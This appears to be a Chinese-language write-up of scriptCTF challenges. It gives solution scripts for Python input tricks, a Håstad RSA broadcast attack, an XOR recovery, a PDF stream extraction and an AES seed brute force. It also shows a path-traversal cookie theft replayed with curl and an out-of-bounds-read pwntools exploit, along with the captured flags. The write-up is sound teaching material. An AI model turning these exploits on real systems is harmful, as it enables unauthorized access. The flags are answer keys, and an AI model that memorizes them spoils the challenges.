


## MISC
### Read The Rules
  

点 here，在点 here  
  

`scriptCTF{600D_1ucK_5011D3r1}`  


### Div
```python
import os
import decimal
decimal.getcontext().prec = 50

secret = int(os.urandom(16).hex(),16)
num = input('Enter a number: ')

if 'e' in num.lower():
    print("Nice try...")
    exit(0)

if len(num) >= 10:
    print('Number too long...')
    exit(0)

fl_num = decimal.Decimal(num)
div = secret / fl_num

if div == 0:
    print(open('flag.txt').read().strip())
else:
    print('Try again...')
```
这道题目的目标是让 `if div == 0:` 这个条件成立，从而打印出 `flag.txt` 里的内容。

---

#### 代码逻辑分析

我们一步步来看代码做了什么：

1. **`import os, decimal`**: 导入了两个库，`os` 用于生成随机数，`decimal` 用于高精度的数学运算。
    
2. **`decimal.getcontext().prec = 50`**: 设置了 `decimal` 库的计算精度为50位有效数字。这是一个关键信息，但可能也是一个迷惑项。
    
3. **`secret = int(os.urandom(16).hex(),16)`**: 生成一个128位的加密级强随机整数。这个 `secret` 数字非常大，并且不可能是0。
    
4. **`num = input('Enter a number: ')`**: 要求用户输入一个数字。
    
5. **`if 'e' in num.lower():`**: 检查用户的输入中是否包含字母 'e'（不分大小写）。如果包含，就退出。这是为了**防止用户使用科学计数法**来输入一个非常大或非常小的数（例如 `1e50`）。
    
6. **`if len(num) >= 10:`**: 检查用户输入的字符串长度。如果长度大于等于10，就退出。这**限制了我们能直接输入的数字的大小**，最大只能是9位数的整数（如 `999999999`）。
    
7. **`fl_num = decimal.Decimal(num)`**: 将用户输入的字符串 `num` 转换成一个高精度的 `Decimal` 对象。
    
8. **`div = secret / fl_num`**: 用那个巨大的随机数 `secret` 除以我们输入的数字 `fl_num`。
    
9. **`if div == 0:`**: 判断上一步除法的结果 `div` 是否等于0。如果等于0，就成功了！
    

---

#### 核心问题 🤔

**如何让一个不为零的数 (`secret`) 除以我们输入的数 (`fl_num`) 之后，结果等于零？**

在常规数学里，这是不可能的。但在计算机编程中，特别是处理浮点数时，有几种可能：

1. **下溢 (Underflow)**: 如果除数 `fl_num` 是一个极其巨大的数字，那么 `secret / fl_num` 的结果会非常接近于0。如果这个结果小于了计算机能表示的最小精度，它就会被当作0。但是，由于输入长度被限制在10个字符以内，我们无法输入一个足够大的数字（比如 `1` 后面跟几十个 `0`）来造成下溢。
    
2. **利用特殊值**: 计算机的数学库（包括 Python 的 `decimal`）通常支持一些特殊的数值，比如**无穷大 (Infinity)** 和**非数值 (NaN, Not a Number)**。
    

---

#### 解题思路与答案 💡

这道题的突破口在于 `fl_num = decimal.Decimal(num)` 这行代码。`decimal` 模块在转换字符串时，能识别一些特殊的单词。

根据 `decimal` 模块的规则，字符串 `'Infinity'` 或者 `'inf'` 会被直接转换成一个表示**正无穷大**的 `Decimal` 对象。

让我们来验证一下这个想法：

- **输入 `inf`**：
    
    1. `'e' in 'inf'.lower()` -> 不包含 'e'，检查通过 ✅。
        
    2. `len('inf')` 是 3，小于 10，检查通过 ✅。
        
    3. `decimal.Decimal('inf')` 会成功创建一个代表无穷大的对象。
        
- **进行除法运算**： 当代码执行 `div = secret / fl_num` 时，就相当于在计算：

$$
div = \frac{\text{一个巨大的有限数 (secret)}}{\infty}
$$
    
    在任何标准的浮点数运算中，**一个有限的数除以无穷大，结果就是 0**。
    
- **最终判断**： `div` 的值变成了 `0`，因此 `div == 0` 的条件成立，程序就会打印出 flag。
    

所以，这道题的正确答案就是输入 **`inf`** 或者 **`Infinity`**。

**总结一下**：这道题并不是考察复杂的数学计算，而是考察对 Python `decimal` 库特殊值处理的了解。它通过限制输入长度和禁用科学计数法，引导我们去思考除了常规数字之外的特殊输入。

  

`scriptCTF{70_1nf1n17y_4nd_b3y0nd_926fc2aa86dc}`

### emoji
给了一些图形编码  
```text
🁳🁣🁲🁩🁰🁴🁃🁔🁆🁻🀳🁭🀰🁪🀱🁟🀳🁮🁣🀰🁤🀱🁮🁧🁟🀱🁳🁟🁷🀳🀱🁲🁤🁟🀴🁮🁤🁟🁦🁵🁮🀡🀱🁥🀴🀶🁤🁽
```

- 文本由一串“多米诺/麻将牌”类 emoji 构成（如 DOMINO TILE VERTICAL-02-02、MAHJONG TILE NINE OF CIRCLES 等）。
- 这些字符的 Unicode 码点都在 U+1F0xx 范围。将每个字符的码点取最低 8 位（按字节取低位）往往是这类 emoji 编码题的套路，可还原出 ASCII。

```python
s = "🁳🁣🁲🁩🁰🁴🁃🁔🁆🁻🀳🁭🀰🁪🀱🁟🀳🁮🁣🀰🁤🀱🁮🁧🁟🀱🁳🁟🁷🀳🀱🁲🁤🁟🀴🁮🁤🁟🁦🁵🁮🀡🀱🁥🀴🀶🁤🁽"
msg = ''.join(chr(ord(ch) & 0xff) for ch in s)
print(msg)
print(repr(msg))
```

`scriptCTF{3m0j1_3nc0d1ng_1s_w31rd_4nd_fun!1e46d}`

### Div 2
```python
import secrets
import decimal
decimal.getcontext().prec = 50
secret =  secrets.randbelow(1 << 127) + (1 << 127) # Choose a 128 bit number
for _ in range(1000):
    print("[1] Provide a number\n[2] Guess the secret number")
    choice = int(input("Choice: "))
    if choice == 1:
        num = input('Enter a number: ')
        fl_num = decimal.Decimal(num)
        assert int(fl_num).bit_length() == secret.bit_length()
        div = secret / fl_num
        print(int(div))
    if choice == 2:
        guess = int(input("Enter secret number: "))
        if guess == secret:
            print(open('flag.txt').read().strip())
        else:
            print("Incorrect!")
        exit(0)

```

- secret 是 128 位整数，输入数字 `num` 与 secret 同位数。
    
- 返回 `q = int(secret / num)`。
    
- 由 div 可得 secret 的范围：
$$
secret=q⋅num+r,0≤r<num
$$
- 每次查询后，更新 secret 的最小值和最大值：
    
    - `LOW = max(LOW, q*num)`
        
    - `HIGH = min(HIGH, q*num + num - 1)`
        
- 循环多次后，`LOW == HIGH`，就是 secret 的精确值。

exp  
```python
from pwn import *
from decimal import Decimal, getcontext

getcontext().prec = 50

HOST = "play.scriptsorcerers.xyz"
PORT = 10271

# 128位范围
LOW = 1 << 127
HIGH = (1 << 128) - 1

def query(num):
    p.sendlineafter(b"Choice: ", b"1")
    p.sendlineafter(b"Enter a number: ", str(num).encode())
    
    data = p.recvuntil(b"[1] Provide a number\n[2] Guess the secret number")
    for line in data.split(b"\n"):
        line = line.strip()
        if line.isdigit():
            return int(line)
    raise ValueError("Did not get a valid number from server")

p = remote(HOST, PORT)

for _ in range(1000):
    mid = (LOW + HIGH) // 2
    mid |= (1 << 127)  # 保证128位
    div = query(mid)
    
    # 更新范围
    LOW = max(LOW, div * mid)
    HIGH = min(HIGH, div * mid + mid - 1)
    
    if LOW == HIGH:
        break

# 最终提交
secret = LOW
p.sendlineafter(b"Choice: ", b"2")
p.sendlineafter(b"Enter secret number: ", str(secret).encode())

print(p.recvline().decode())
```


## Crypto
### RSA-1
```python
n1 = 156503881374173899106040027210320626006530930815116631795516553916547375688556673985142242828597628615920973708595994675661662789752600109906259326160805121029243681236938272723595463141696217880136400102526509149966767717309801293569923237158596968679754520209177602882862180528522927242280121868961697240587
c1 = 77845730447898247683281609913423107803974192483879771538601656664815266655476695261695401337124553851404038028413156487834500306455909128563474382527072827288203275942719998719612346322196694263967769165807133288612193509523277795556658877046100866328789163922952483990512216199556692553605487824176112568965

n2 = 81176790394812943895417667822424503891538103661290067749746811244149927293880771403600643202454602366489650358459283710738177024118857784526124643798095463427793912529729517724613501628957072457149015941596656959113353794192041220905793823162933257702459236541137457227898063370534472564804125139395000655909
c2 = 40787486105407063933087059717827107329565540104154871338902977389136976706405321232356479461501507502072366720712449240185342528262578445532244098369654742284814175079411915848114327880144883620517336793165329893295685773515696260299308407612535992098605156822281687718904414533480149775329948085800726089284

n3 = 140612513823906625290578950857303904693579488575072876654320011261621692347864140784716666929156719735696270348892475443744858844360080415632704363751274666498790051438616664967359811895773995052063222050631573888071188619609300034534118393135291537302821893141204544943440866238800133993600817014789308510399
c3 = 100744134973371882529524399965586539315832009564780881084353677824875367744381226140488591354751113977457961062275480984708865578896869353244823264759044617432862876208706282555040444253921290103354489356742706959370396360754029015494871561563778937571686573716714202098622688982817598258563381656498389039630

e = 3
```

- 已知三个不同的模数 `n1, n2, n3`。
    
- 相同明文 `m` 被分别加密得到 `c1, c2, c3`。
    
- 公钥指数 `e = 3`。
    
- 这是 **Håstad’s Broadcast Attack** 的典型场景。
    

原理：

1. 对于每个密文：
$$
ci= m^3 \mod n_i
$$​

2. 因为 `n1, n2, n3` 互素，可以用 **中国剩余定理 (CRT)** 求解：

$$
m3≡C(modN),N=n1⋅n2⋅n3
$$

3. 求出 `C` 后，由于$m3<n1⋅n2⋅n3$可以直接开立方根得到明文 `m`。

exp  
```python
from sympy import integer_nthroot

# 已知参数
n1 = 156503881374173899106040027210320626006530930815116631795516553916547375688556673985142242828597628615920973708595994675661662789752600109906259326160805121029243681236938272723595463141696217880136400102526509149966767717309801293569923237158596968679754520209177602882862180528522927242280121868961697240587
c1 = 77845730447898247683281609913423107803974192483879771538601656664815266655476695261695401337124553851404038028413156487834500306455909128563474382527072827288203275942719998719612346322196694263967769165807133288612193509523277795556658877046100866328789163922952483990512216199556692553605487824176112568965

n2 = 81176790394812943895417667822424503891538103661290067749746811244149927293880771403600643202454602366489650358459283710738177024118857784526124643798095463427793912529729517724613501628957072457149015941596656959113353794192041220905793823162933257702459236541137457227898063370534472564804125139395000655909
c2 = 40787486105407063933087059717827107329565540104154871338902977389136976706405321232356479461501507502072366720712449240185342528262578445532244098369654742284814175079411915848114327880144883620517336793165329893295685773515696260299308407612535992098605156822281687718904414533480149775329948085800726089284

n3 = 140612513823906625290578950857303904693579488575072876654320011261621692347864140784716666929156719735696270348892475443744858844360080415632704363751274666498790051438616664967359811895773995052063222050631573888071188619609300034534118393135291537302821893141204544943440866238800133993600817014789308510399
c3 = 100744134973371882529524399965586539315832009564780881084353677824875367744381226140488591354751113977457961062275480984708865578896869353244823264759044617432862876208706282555040444253921290103354489356742706959370396360754029015494871561563778937571686573716714202098622688982817598258563381656498389039630

e = 3

# 中国剩余定理求解 m^3
N = n1 * n2 * n3
m1 = n2 * n3
m2 = n1 * n3
m3 = n1 * n2

inv1 = pow(m1, -1, n1)
inv2 = pow(m2, -1, n2)
inv3 = pow(m3, -1, n3)

C = (c1*m1*inv1 + c2*m2*inv2 + c3*m3*inv3) % N

# 开立方根
m, exact = integer_nthroot(C, e)
if exact:
    print("明文 m =", m)
    print("明文 bytes =", m.to_bytes((m.bit_length() + 7) // 8, 'big'))
else:
    print("无法精确开立方根")
```

### Secure-Server

```python
import os
from pwn import xor
print("With the Secure Server, sharing secrets is safer than ever!")
enc = bytes.fromhex(input("Enter the secret, XORed by your key (in hex): ").strip())
key = os.urandom(32)
enc2 = xor(enc,key).hex()
print(f"Double encrypted secret (in hex): {enc2}")
dec = bytes.fromhex(input("XOR the above with your key again (in hex): ").strip())
secret = xor(dec,key)
print("Secret received!")


# With the Secure Server, sharing secrets is safer than ever!
# Enter the secret, XORed by your key (in hex): 
# 151e71ce4addf692d5bac83bb87911a20c39b71da3fa5e7ff05a2b2b0a83ba03

# Double encrypted secret (in hex): e1930164280e44386b389f7e3bc02b707188ea70d9617e3ced989f15d8a10d70
# XOR the above with your key again (in hex): 
# 87ee02c312a7f1fef8f92f75f1e60ba122df321925e8132068b0871ff303960e

# Secret received!
```

**脚本逻辑**
1. 用户输入一次 **已用某个 key XOR 过的秘密** `enc`（hex 格式）。
    
2. 服务器生成 **随机 32 字节 key** `key`。
    
3. 服务器再次 XOR：`enc2 = xor(enc, key)`，并输出 `enc2`。
    
4. 用户再次输入 `enc2 XOR key`，服务器解密一次：`secret = xor(dec, key)`，得到最终秘密。
    

也就是说，如果记为数学形式：

- 用户输入的 `enc = secret XOR key_user`
    
- 服务器生成 `key_server = key`
    
- 输出 `enc2 = enc XOR key_server = secret XOR key_user XOR key_server`
    
- 用户输入 `dec = enc2 XOR key_user = secret XOR key_server`
    
- 服务器解密：`secret = dec XOR key_server = secret`

exp  
```python
from pwn import xor

enc  = bytes.fromhex("151e71ce4addf692d5bac83bb87911a20c39b71da3fa5e7ff05a2b2b0a83ba03")
enc2 = bytes.fromhex("e1930164280e44386b389f7e3bc02b707188ea70d9617e3ced989f15d8a10d70")
dec  = bytes.fromhex("87ee02c312a7f1fef8f92f75f1e60ba122df321925e8132068b0871ff303960e")

# 恢复服务器随机 key
key_server = xor(enc2, enc)

# 解密最终 secret
secret = xor(dec, key_server)

print(secret)
```

`scriptCTF{x0r_1s_not_s3cur3!!!!}`

## Forensics 

### diskchal
挂载磁盘  
  

恢复文件，解压  
  

`scriptCTF{1_l0v3_m461c_7r1ck5}`

### pdf
打开文件，这里隐藏了一个flag，但是是假的  
  

使用脚本提取压缩数据  
```python
import re
import zlib

def extract_and_decompress_streams(pdf_path):
    """
    Opens a PDF file, finds all streams, and attempts to decompress them.
    
    Args:
        pdf_path (str): The path to the PDF file.
    """
    try:
        with open(pdf_path, 'rb') as f:
            content = f.read()
        print(f"✅ Successfully read {pdf_path}. Total size: {len(content)} bytes.\n")
    except FileNotFoundError:
        print(f"❌ 错误: 文件未找到 '{pdf_path}'")
        print("➡️ 请确保脚本中的 PDF_FILE_PATH 变量设置了正确的文件路径。")
        return

    # 正则表达式，用于查找PDF对象头，例如 "7 0 obj"
    obj_header_pattern = re.compile(br'(\d+)\s+(\d+)\s+obj')
    # 正则表达式，用于查找流的长度，例如 "/Length 58"
    length_pattern = re.compile(br'/Length\s+(\d+)')

    idx = 0
    stream_count = 0
    while True:
        # 查找下一个 'stream' 关键字
        stream_start_keyword = content.find(b'stream', idx)
        if stream_start_keyword == -1:
            break
        
        stream_count += 1
        print(f"--- Stream #{stream_count} Found ---")

        # 定位 stream 数据的真正起始位置
        # 根据 PDF 规范，'stream' 关键字后通常跟一个回车(CR)和换行(LF)，或者只有一个换行(LF)
        data_start = stream_start_keyword + len(b'stream')
        # 跳过可能存在的空格和换行符
        while content[data_start:data_start+1] in b' \r\n':
            data_start += 1

        # 查找 'endstream' 关键字来确定数据流的末尾
        stream_end_keyword = content.find(b'endstream', data_start)
        if stream_end_keyword == -1:
            break

        # 提取流的原始数据
        raw_data = content[data_start:stream_end_keyword]
        
        # --- 解析与此流相关的字典和对象信息 ---
        
        # 向前搜索，找到流之前的 '<<' 字典开始符号
        dict_start = content.rfind(b'<<', 0, stream_start_keyword)
        dict_bytes = b''
        obj_num = (-1, -1)
        length_from_dict = None
        
        if dict_start != -1:
            # 找到匹配的 '>>' 字典结束符号
            dict_end = content.find(b'>>', dict_start, stream_start_keyword)
            if dict_end != -1:
                dict_bytes = content[dict_start : dict_end + 2]
                
                # 从字典中解析 /Length
                len_match = length_pattern.search(dict_bytes)
                if len_match:
                    length_from_dict = int(len_match.group(1))

            # 进一步向前查找对象头 (e.g., "12 0 obj")
            header_start = content.rfind(b'obj', 0, dict_start)
            # 搜索范围限定在对象头和字典之间
            header_search_region = content[max(0, header_start - 20) : header_start + 3]
            obj_match = obj_header_pattern.search(header_search_region)
            if obj_match:
                obj_num = (int(obj_match.group(1)), int(obj_match.group(2)))

        print(f"📄 Object Number: {obj_num[0]} {obj_num[1]}")
        print(f"📖 Dictionary Snippet: {dict_bytes[:100].strip().decode('latin1', 'ignore')}")

        # 根据字典中的 /Length 值来精确确定流数据
        # 有些PDF的 endstream 前会有额外的换行符，/Length 是最准的
        stream_data = raw_data
        if length_from_dict is not None:
            print(f"📏 Claimed Length: {length_from_dict}, Actual Data before 'endstream': {len(raw_data)}")
            stream_data = raw_data[:length_from_dict]
        else:
            print(f"📏 Claimed Length: Not found, using data until 'endstream'. Size: {len(stream_data)}")

        # --- 尝试解压缩 ---

        # 检查字典中是否有 /FlateDecode 过滤器
        if b'/FlateDecode' in dict_bytes:
            print("📦 Filter: /FlateDecode detected. Attempting decompression...")
            decompressed = None
            # zlib.decompress 的 wbits 参数很关键：
            # 默认值 (15): 期望数据包含 zlib 头部和校验和。
            # 负值 (-15): 表示数据是纯粹的 DEFLATE 压缩流，没有 zlib 头部。PDF 中很常见。
            try:
                # 首先尝试标准模式
                decompressed = zlib.decompress(stream_data)
                print("✅ Decompressed successfully (standard zlib header).")
            except zlib.error:
                try:
                    # 如果失败，尝试 raw DEFLATE 模式
                    decompressed = zlib.decompress(stream_data, wbits=-15)
                    print("✅ Decompressed successfully (raw DEFLATE stream).")
                except zlib.error as e:
                    print(f"❌ Decompression failed for both modes. Error: {e}")
            
            if decompressed:
                # 过滤掉二进制乱码，只显示可打印字符，便于预览
                visible_text = ''.join(chr(c) for c in decompressed if 32 <= c <= 126 or c in (10, 13))
                print(f"📜 Decompressed Content (first 500 chars):\n---\n{visible_text[:500]}\n---\n")

        else:
            # 如果没有压缩或使用了其他未处理的压缩方式
            print("📦 Filter: No /FlateDecode filter. Displaying raw visible content.")
            visible_text = ''.join(chr(c) for c in stream_data if 32 <= c <= 126 or c in (10, 13))
            print(f"📜 Raw Content (first 500 chars):\n---\n{visible_text[:500]}\n---\n")

        # 更新索引，从当前 'endstream' 之后继续搜索
        idx = stream_end_keyword + len(b'endstream')

    if stream_count == 0:
        print("🤷 No streams found in the document.")


# 主程序入口
if __name__ == "__main__":
    PDF_FILE_PATH = "challenge.pdf"
    extract_and_decompress_streams(PDF_FILE_PATH)
```

```text
✅ Successfully read challenge.pdf. Total size: 8068 bytes.

--- Stream #1 Found ---
📄 Object Number: 4 0
📖 Dictionary Snippet: << /Length 48 /Filter /FlateDecode >>
📏 Claimed Length: 48, Actual Data before 'endstream': 49
📦 Filter: /FlateDecode detected. Attempting decompression...
✅ Decompressed successfully (standard zlib header).
📜 Decompressed Content (first 500 chars):
---
scriptCTF{pdf_s7r34m5_0v3r_7w17ch_5tr34ms}
---
......
```

## WEB
### Renderer
```python
from flask import Flask, request, redirect, render_template, make_response, url_for
app = Flask(__name__)
from hashlib import sha256
import os
def allowed(name):
    if name.split('.')[1] in ['jpg','jpeg','png','svg']:
        return True
    return False

@app.route('/',methods=['GET','POST'])
def upload():
    if request.method == 'POST':
        if 'file' not in request.files:
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            return redirect(request.url)
        if file and allowed(file.filename):
            filename = file.filename
            hash = sha256(os.urandom(32)).hexdigest()
            filepath = f'./static/uploads/{hash}.{filename.split(".")[1]}'
            file.save(filepath)
            return redirect(f'/render/{hash}.{filename.split(".")[1]}')
    return render_template('upload.html')

@app.route('/render/<path:filename>')
def render(filename):
    return render_template('display.html', filename=filename)

@app.route('/developer')
def developer():
    cookie = request.cookies.get("developer_secret_cookie")
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if correct == '':
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if cookie == correct:
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
        return f"Welcome! There is currently 1 unread message: {open('flag.txt').read()}"
    else:
        return "You are not a developer!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
#### 代码分析
1. **文件上传 (`/`)**
    
    - 网站主页允许用户上传扩展名为 `.jpg`, `.jpeg`, `.png` 或 `.svg` 的图片文件。
        
    - 当文件上传后，服务器会为其生成一个密码学安全的随机哈希值作为新的文件名，以防止文件名冲突。
        
    - 文件被保存在 `./static/uploads/` 目录下，格式为 `{哈希值}.{原始扩展名}`。
        
    - 最后，服务器将用户重定向到 `/render/` 页面以显示上传的图片。
        
2. **图片渲染 (`/render/<path:filename>`)**
    
    - 这个端点的功能是显示已上传的图片。
        
    - 它从 URL 中获取一个 `filename` 参数。此处的路由使用了 `<path:filename>` 转换器，这一点至关重要，因为它**允许 `filename` 变量中包含斜杠（`/`）**。
        
    - 然后，它渲染 `display.html` 模板。在这个模板中，会创建一个 `<iframe>`，其 `src` 属性通过简单的字符串拼接设置为 `"/static/uploads/" + filename`。
        
3. **开发者区域 (`/developer`)**
    
    - 这是包含 flag 的目标端点。
        
    - 对该区域的访问由一个名为 `developer_secret_cookie` 的 Cookie 进行保护。
        
    - 服务器会将用户请求中的 Cookie 值与存储在 `./static/uploads/secrets/secret_cookie.txt` 文件中的秘密值进行比较。

#### 漏洞利用点

1. 目录任意读取
	
	- `/render/`路由可以读取文件  
	
2. 设置 Cookie 并访问`/developer` 路由  
	
	- 读取Cookie文件后，携带Cookie文件去访问`/developer` 路由  

```bash
http://play.scriptsorcerers.xyz:10118/render/secrets/secret_cookie.txt

cookie:d4b2b8e4bf13c506d73d831c73792e9b80eb1d03ae09ab52d0415446516a8a4a

curl --cookie "developer_secret_cookie=d4b2b8e4bf13c506d73d831c73792e9b80eb1d03ae09ab52d0415446516a8a4a" http://play.scriptsorcerers.xyz:10118/developer

Welcome! There is currently 1 unread message: scriptCTF{my_c00k135_4r3_n0t_s4f3!_e19acf366f43}
```

## Reverse
### Plastic Shield

main函数  
  

AES_init_ctx_iv  


KeyExpansion  
  
  


- 程序读取口令 `s`，取索引 `⌊0.6*len(s)⌋` 处的 **一个字节**（单个字符）作为种子。
    
- 对该单字节做 `BLAKE2b`（输出 64 字节），然后把其 **前 32 字节**当成 AES 密钥。
	
- IV 的来源在反编译里看起来有点“迷离”（有个数组只对 index=64 位置做了写 0），常见设计是把哈希结果的 **后续 16 字节**当作 IV。但也可能是 0 IV 或其它切片。
    
- AES 密钥扩展逻辑与 Rcon 表符合 **AES-256**（`KeyExpansion` 里先拷 8 个 word，循环到 0x3B，且每 8 个 word 做一次 Rcon / SubWord）。

因此破解思路很简单：**不需要知道完整口令**，直接枚举这个“单字节种子”（0～255），对每个种子求 BLAKE2b，取前 32 字节为 key，然后尝试不同 IV 取法去解密这段固定密文，验证 PKCS#7 填充并筛选可读明文。

exp  
```python
from hashlib import blake2b
from Crypto.Cipher import AES

# 固定密文（题目里给的 hex）
CT_HEX = (
    "713d7f2c0f502f485a8af0c284bd3f1e7b03d27204a616a8340beaae23f130ed"
    "f65401c1f99fe99f63486a385ccea217"
)
ct = bytes.fromhex(CT_HEX)

def unpad(data: bytes) -> bytes:
    """去掉 PKCS#7 填充"""
    pad = data[-1]
    if pad == 0 or pad > 16 or data[-pad:] != bytes([pad])*pad:
        raise ValueError("bad padding")
    return data[:-pad]

for seed in range(256):  # 穷举单字节种子 0~255
    h = blake2b(bytes([seed]), digest_size=64).digest()
    key = h[:32]         # AES-256 密钥
    ivs = [h[32:48],     # 常见：哈希的后 16 字节
           h[:16],       # 前 16 字节
           bytes(16)]    # 全 0 IV

    for iv in ivs:
        try:
            pt = AES.new(key, AES.MODE_CBC, iv).decrypt(ct)
            pt = unpad(pt)
            # 过滤：明文里大部分应可打印
            if all(32 <= c < 127 or c in (10,13) for c in pt):
                print(f"Seed={seed}, IV={ivs.index(iv)} => {pt.decode(errors='ignore')}")
        except Exception:
            pass
```


## PWN
### Index
main函数  
  

menu函数，菜单函数  
  

main这里读取了flag.txt但是没有输出  
  

read_data函数  
  
读取然后输出  

store_data函数  
  
读取然后输出  
`fgets` 限制长度 → 防止直接栈溢出。

print_flag函数  
  
没啥用，输出一写东西，没有调用flag的地方   

#### 漏洞点

- `read_data()` 没有边界检查。
    
- 通过计算：`idx = (flag_addr - nums_addr) // 8` 可以直接读取 `nums` 数组后的 `flag` 内容。
	
- flag 内容存储在 `flag` 变量中，程序会在 `1337` 选项触发读取到内存。
    
- `read_data()` 可以按索引读取 `nums` 数组的数据。
    
- `nums` 是数组，`flag` 在它后面 → 可以通过越界索引读取 flag。


#### 函数调用流程图



#### 内存布局 + 越界索引示意图


#### 攻击思路

1. 发送 `1337`，触发 flag 加载到内存。
    
2. 计算 `idx = (flag_addr - nums_addr) // 8`。
    
3. 选择 `read_data()`，输入 idx 越界读取 flag。

exp  
```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

# --------------------------
# 配置
# --------------------------
BIN = "./index"      # 本地 binary
HOST = "play.scriptsorcerers.xyz"
PORT = 10108

p = remote(HOST, PORT)
elf = ELF(BIN)

# --------------------------
# 获取内存地址
# --------------------------
nums_addr = elf.symbols['nums']    # nums 数组基址
flag_addr = elf.symbols['flag']    # flag 存储地址

log.info(f"nums base: {hex(nums_addr)}")
log.info(f"flag addr: {hex(flag_addr)}")

# --------------------------
# 计算越界索引
# --------------------------
idx = (flag_addr - nums_addr) // 8
log.info(f"越界索引 idx = {idx}")

# --------------------------
# 触发 flag 加载
# --------------------------
p.recvuntil(b"4. Exit\n")
p.sendline(b"1337")  # 特殊输入让程序把 flag 读取到内存

# --------------------------
# 通过 read_data 越界读取 flag
# --------------------------
p.recvuntil(b"4. Exit\n")
p.sendline(b"2")  # 选择 read_data
p.recvuntil(b"Index: ")
p.sendline(str(idx).encode())

# --------------------------
# 读取输出
# --------------------------
flag_data = b""
try:
    while True:
        chunk = p.recv(timeout=0.5)
        if not chunk:
            break
        flag_data += chunk
except EOFError:
    pass

# 解析输出
flag_text = flag_data.decode(errors='ignore')
# 去掉多余的菜单
flag_text = flag_text.replace("Data: ", "").split("1. Store data")[0].strip()

print("---- FLAG ----")
print(flag_text)
print("----------------")

p.close()

```